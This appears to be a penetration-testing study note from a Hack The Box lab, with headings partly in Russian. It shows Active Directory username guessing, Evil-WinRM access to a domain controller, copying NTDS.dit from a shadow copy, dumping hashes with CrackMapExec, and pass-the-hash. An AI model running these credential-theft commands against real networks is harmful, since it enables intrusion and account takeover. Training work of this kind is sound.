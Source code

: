![[Pasted image 20230509225201.png]]

## Dictionary Attacks against AD accounts using CrackMapExec
Username Convention

Practical Example for Jane Jill Doe

`firstinitiallastname`                            `jdoe`

`firstinitialmiddleinitiallastname`   `jjdoe`

`firstnamelastname`                                 `janedoe`

`firstname.lastname`                               `jane.doe`

`lastname.firstname`                               `doe.jane`

`nickname`                                                 `doedoehacksstuff`

#### Подключение к DC с помощью Evil-WinRM

```shell-session
lizergindoma@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

#### Проверка членства в локальной группе
```shell-session
*Evil-WinRM* PS C:\> net localgroup
```

#### Проверка привилегий учетной записи пользователя, включая домен
```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson
```

#### Создание теневой копии C:
```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

#### Копирование NTDS.dit из VSS
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```

#### Более быстрый метод: использование cme для захвата NTDS.dit
```shell-session
lizergindoma@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

#### Пример передачи хеша с помощью Evil-WinRM
```shell-session
lizergindoma@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
